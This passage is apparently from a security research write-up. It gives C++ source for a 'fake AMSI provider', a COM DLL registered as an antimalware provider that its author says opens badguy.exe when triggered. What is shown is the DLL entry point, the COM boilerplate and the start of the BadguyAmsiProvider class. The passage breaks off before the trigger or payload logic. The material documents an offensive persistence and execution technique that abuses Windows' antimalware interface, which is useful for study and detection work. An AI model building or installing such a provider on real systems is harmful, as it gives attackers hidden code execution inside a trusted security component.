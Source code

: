 The following code represents the fake AMSI provider which upon execution of the trigger will open *badguy.exe*

```C++
#include "stdafx.h"
#include <process.h>
#include <subauth.h>
#include <strsafe.h>
#include <amsi.h>
#include <windows.h>
#include <wrl/module.h>

using namespace Microsoft::WRL;

HMODULE g_currentModule;

typedef void (NTAPI* _RtlInitUnicodeString)(
	PUNICODE_STRING DestinationString,
	PCWSTR SourceString
	);

typedef NTSYSAPI BOOLEAN(NTAPI* _RtlEqualUnicodeString)(
	PUNICODE_STRING String1,
	PUNICODE_STRING String2,
	BOOLEAN CaseInsetive
	);

DWORD WINAPI MyThreadFunction(LPVOID lpParam);
void ErrorHandler(LPTSTR lpszFunction);

BOOL APIENTRY DllMain(HMODULE module, DWORD reason, LPVOID reserved)
{
	switch (reason)
	{
	case DLL_PROCESS_ATTACH:
		g_currentModule = module;
		DisableThreadLibraryCalls(module);
		Module<InProc>::GetModule().Create();
		break;

	case DLL_PROCESS_DETACH:
		Module<InProc>::GetModule().Terminate();
		break;
	}
	return TRUE;
}

#pragma region COM server boilerplate
HRESULT WINAPI DllCanUnloadNow()
{
	return Module<InProc>::GetModule().Terminate() ? S_OK : S_FALSE;
}

STDAPI DllGetClassObject(_In_ REFCLSID rclsid, _In_ REFIID riid, _Outptr_ LPVOID FAR* ppv)
{
	return Module<InProc>::GetModule().GetClassObject(rclsid, riid, ppv);
}
#pragma endregion

class
	DECLSPEC_UUID("2E5D8A62-77F9-4F7B-A90C-2744820139B2")
	BadguyAmsiProvider : public RuntimeClass<RuntimeClassFlags<ClassicCom>, IAntimalwareProvider, FtmBase>
{
```